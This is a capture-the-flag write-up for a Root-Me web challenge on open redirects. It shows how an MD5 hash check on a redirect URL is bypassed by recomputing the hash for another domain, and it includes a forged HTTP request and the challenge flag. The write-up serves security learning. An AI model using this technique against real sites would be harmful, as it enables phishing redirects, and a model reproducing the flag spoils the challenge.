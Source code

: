 # HTTP - Open redirect

> Find a way to make a redirection to a domain other than those showed on the web page.

<figure><img src="../../.gitbook/assets/1 (101).png" alt=""><figcaption></figcaption></figure>

We can click on any of the options and intercept the request using Burpsuite.

<figure><img src="../../.gitbook/assets/2 (96).png" alt=""><figcaption></figcaption></figure>

```
GET /web-serveur/ch52/?url=https://facebook.com&h=a023cfbf5f1c39bdf8407f28b60cd134 HTTP/1.1
```

The request would typically be processed by a web server, which would attempt to access the specified URL (in this case, `https://facebook.com`) and respond accordingly.

The `h` parameter may be some form of hash used for the purpose of authentication.

Let's decode the hash using an online decoder.

<figure><img src="../../.gitbook/assets/3 (83).png" alt=""><figcaption></figcaption></figure>

So the MD5 hashing function was used to encode `https://facebook.com` and the hash was then included in the `h` parameter.

Let's say we want to redirect to `https://openredirect.com`, we would have to set the `h` parameter to the hash of the `url` parameter.

<figure><img src="../../.gitbook/assets/4 (65).png" alt=""><figcaption></figcaption></figure>

## HTTP Request

```
GET /web-serveur/ch52/?url=https://openredirect.com&h=467e5d669ea35a18601efe9bb20f52ad HTTP/1.1
Host: challenge01.root-me.org
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://challenge01.root-me.org/web-serveur/ch52/
DNT: 1
Connection: close
Cookie: _ga_SRYSKX09J7=GS1.1.1697302688.4.1.1697302689.0.0.0; _ga=GA1.1.1863804672.1697290591
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
```

For the final step, we have to send this request to the server.

<figure><img src="../../.gitbook/assets/5 (56).png" alt=""><figcaption></figcaption></figure>

## Flag

```
e6f8a530811d5a479812d7b82fc1a5c5
```
